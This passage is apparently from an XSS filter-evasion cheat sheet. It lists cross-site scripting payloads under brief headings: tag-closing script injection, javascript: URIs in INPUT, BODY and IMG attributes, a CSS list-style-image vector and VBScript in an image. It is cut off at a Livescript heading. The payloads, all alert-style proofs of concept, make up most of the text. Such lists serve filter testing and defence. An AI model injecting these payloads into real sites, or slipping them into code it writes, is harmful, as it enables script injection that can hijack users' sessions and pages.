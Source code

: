 ```js
</script><script>alert('XSS');</script>
```

## End Title Tag
This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```js
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT Image
```js
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

## BODY Image
```js
<BODY BACKGROUND="javascript:alert('XSS')">
```

## IMG Dynsrc

```js
<IMG DYNSRC="javascript:alert('XSS')">
```

## IMG Lowsrc

```js
<IMG LOWSRC="javascript:alert('XSS')">
```

## List-style-image
Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:
```js
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE>
<UL><LI>XSS</br>
```

## VBscript in an Image

```js
<IMG SRC='vbscript:msgbox("XSS")'>
```

## Livescript (older versions of Netscape only)

